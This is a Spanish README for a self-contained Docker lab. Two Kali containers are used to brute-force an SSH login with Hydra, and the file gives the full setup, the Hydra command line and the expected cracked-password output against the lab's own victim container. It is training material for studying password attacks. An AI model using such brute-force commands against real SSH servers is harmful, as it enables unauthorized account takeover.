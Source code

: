 # Laboratorio de Fuerza Bruta con Hydra sobre SSH usando Docker Compose

Este proyecto implementa un entorno de laboratorio local utilizando Docker y Docker Compose para realizar un ataque de fuerza bruta con **Hydra** sobre un servicio SSH. Se emplean dos contenedores basados en Kali Linux: uno como atacante y otro como víctima.

---

## 📦 Estructura del proyecto

```
lab-hydra/
├── docker-compose.yml
├── pass.txt
├── .gitignore
└── README.md
```

---

## ⚙️ Requisitos previos

* Docker
* Docker Compose
* Git (opcional para subir el proyecto)

---

## 🧱 Paso 1: Crear el entorno

### 1.1 Clonar o crear la carpeta del laboratorio

```bash
mkdir lab-hydra && cd lab-hydra
```

### 1.2 Crear el archivo `docker-compose.yml`

```yaml
version: '3.8'

services:
  kali_attacker:
    image: kalilinux/kali-rolling
    container_name: kali_attacker
    stdin_open: true
    tty: true
    networks:
      - red_kali
    command: sleep infinity

  kali_victim:
    image: kalilinux/kali-rolling
    container_name: kali_victim
    stdin_open: true
    tty: true
    networks:
      - red_kali
    command: sleep infinity

networks:
  red_kali:
    driver: bridge
```

### 1.3 Levantar los contenedores

```bash
docker compose up -d
```

---

## 🧪 Paso 2: Configurar la máquina víctima

### 2.1 Ingresar al contenedor

```bash
docker exec -it kali_victim bash
```

### 2.2 Instalar y configurar SSH

```bash
apt update && apt install openssh-server -y
service ssh start
```

### 2.3 Crear un usuario vulnerable

```bash
useradd -m usuarioPrueba
passwd usuarioPrueba  # Usar "soyunavistima"
```

### 2.4 Confirmar IP

```bash
apt install iproute2 -y
ip a  # Anotar IP, por ejemplo: 172.20.0.3
```

---

## 💣 Paso 3: Configurar la máquina atacante

### 3.1 Ingresar al contenedor

```bash
docker exec -it kali_attacker bash
```

### 3.2 Instalar Hydra y cliente SSH

```bash
apt update
apt install hydra openssh-client dos2unix -y
```

### 3.3 Crear diccionario de contraseñas

```bash
echo "soyunavistima" > pass.txt
dos2unix pass.txt
```

---

## 🎯 Paso 4: Ejecutar el ataque

### 4.1 Lanzar Hydra

```bash
hydra -V -l usuarioPrueba -P pass.txt ssh://172.20.0.3
```

### 4.2 Resultado esperado

```text
[22][ssh] host: 172.20.0.3   login: usuarioPrueba   password: soyunavistima
```

---

## 🧾 Observaciones

* Asegúrate de que `pass.txt` tenga formato Unix.
* Si el login manual funciona pero Hydra falla, verifica los permisos y formato del archivo.
* `hydra -V` permite ver los intentos en tiempo real.

---

## 📤 Subir a GitHub

```bash
git init
git add .
git commit -m "Laboratorio fuerza bruta con Hydra sobre SSH"
git branch -M main
git remote add origin https://github.com/tuusuario/lab-hydra.git
git push -u origin main
```

---

## 📄 .gitignore sugerido

Crea un archivo llamado `.gitignore` y agrega lo siguiente:

```
# Archivos temporales y logs
*.log
*.out

# Archivos sensibles o temporales
pass.txt

# Archivos de sistema
.DS_Store
Thumbs.db

# Docker
*.pid
*.sock

# WSL/VSCode
.vscode/
```

---

## ✅ Créditos

FreezeDaniel, 2025
Hydra por van Hauser/THC

---

¿Preguntas o mejoras? ¡Abre un issue o pull request!
